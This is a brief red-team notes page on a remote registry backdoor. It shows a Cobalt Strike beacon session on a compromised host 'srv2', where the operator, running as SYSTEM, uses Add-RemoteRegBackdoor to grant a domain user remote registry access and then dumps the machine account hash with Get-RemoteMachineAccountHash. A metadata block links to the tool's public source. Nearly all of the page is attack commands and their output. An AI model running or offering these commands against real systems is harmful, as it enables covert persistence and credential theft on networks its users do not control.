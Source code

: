 
## [[Remote Registry]]
`Add-RemoteRegBackdoor` can be run locally on a compromised machine, or remotely with credentials.
```beacon
beacon> run hostname
srv2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Add-RemoteRegBackdoor -Trustee EDU\john
ComputerName BackdoorTrustee
------------ ---------------
SRV2        EDU\john
```

```beacon
beacon> getuid
[*] You are EDU\john

beacon> ls \\srv2\c$
[-] could not open \\srv2\c$\*: 5

beacon> powershell Get-RemoteMachineAccountHash -ComputerName srv2

ComputerName MachineAccountHash              
------------ ------------------              
srv2        5d0d485386727a8a92498a2c188627ec
```


```meta
requirements: 
results: 
oss: 
source: https://github.com/HarmJ0y/DAMP/blob/master/Add-RemoteRegBackdoor.ps1
description: Implements a new remote registry backdoor that allows for the remote retrieval of a system's machine account hash.
undetected: 
```
